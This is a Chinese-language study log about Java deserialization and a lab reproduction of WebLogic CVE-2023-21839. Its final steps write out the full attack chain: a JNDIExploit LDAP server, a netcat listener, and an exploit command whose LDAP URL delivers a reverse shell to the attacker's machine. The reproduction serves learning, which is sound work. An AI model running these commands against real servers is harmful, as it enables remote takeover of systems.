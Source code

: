 1. 学习java反序列化相关知识，了解java反序列化的流程，已经反序列过程中可能存在的问题

2. 了解weblogic中间件，查找weblogic常见的漏洞，weblogic的最常见的是反序列化漏洞，许多与weblogic相关的cve都是反序列化漏洞

3. 搭建weblogic环境，尝试复现weblogic CVE-2023-21839漏洞,weblogic安装包太大，由于网速原因多次下载都失败，且不支持openjdk安装，所以重新安装java环境，需要安装oracle版本的java1.8

4. 环境准备好之后，复现weblogic CVE-2023-21839漏洞，在同一台电脑上模拟一个服务器和一个攻击机，服务器ip为127.0.0.1，服务端口为7001,攻击机ip为192.168.8.100，需要的工具有JNDIExploit-1.3-SNAPSHOT.jar、Weblogic-CVE-2023-21839.jar、weblogic docker，通过以下步骤

服务器启动docker中的weblogic程序，运行命令：
sudo docker-compose ps

攻击机启动JNDI监听，启动ldap服务器：
java -jar JNDIExploit-1.3-SNAPSHOT.jar -i 192.168.8.100

攻击机启动netcat监听：
nc -lvvp 8888

攻击机执行攻击payload：
java -jar ./Weblogic-CVE-2023-21839.jar 127.0.0.1:7001 ldap://192.168.8.100:1389/Basic/ReverseShell/192.168.8.100/8888

